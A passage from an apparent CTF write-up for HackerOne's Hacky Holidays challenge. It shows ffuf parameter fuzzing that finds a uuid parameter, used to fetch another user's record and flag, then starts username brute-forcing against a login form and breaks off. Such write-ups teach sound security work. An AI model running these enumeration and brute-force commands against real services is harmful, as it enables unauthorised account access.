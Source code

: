 now back to /user endpoint

```
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/user
{"error":"Missing required fields"}
```

so we are missing a parameter here from the error message, lets do some more fuzzing for GET parameters to `/user` API endpoint, again using ffuf and parameters wordlist obtained from https://wordlists.assetnote.io/ 

```
$ ffuf -w ./httparchive_parameters_top_1m_2020_11_21.txt -u "https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=test" -mc all -fs 35
[...]

 :: Method           : GET
 :: URL              : https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=test
 :: Wordlist         : FUZZ: ./httparchive_parameters_top_1m_2020_11_21.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 35
________________________________________________

uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
````
there's a param discovered called uuid, it makes sense now that the user field obtained from sessions looks like a uuid
lets fetch it

```
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
{"uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","username":"grinch","address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},"flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"}

```
and bingo, a flag!


----------------------------------------------------------------


## Day 5


today's challenge is securelogin https://hackyholidays.h1ctf.com/secure-login, it doesn't seem much more than the login form, by entering any user/pass combination we have the error message `Invalid Username`, so apparently we can enumerate valid users as a first step! so brutefocing this time with ffuf and SecLists to the rescue.

```
ffuf -w ./10-million-password-list-top-1000.txt -u https://hackyholidays.h1ctf.com/secure-login -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=FUZZ&password=test' -mc all -fr 'Invalid Username'
[...]

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: ./10-million-password-list-top-1000.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```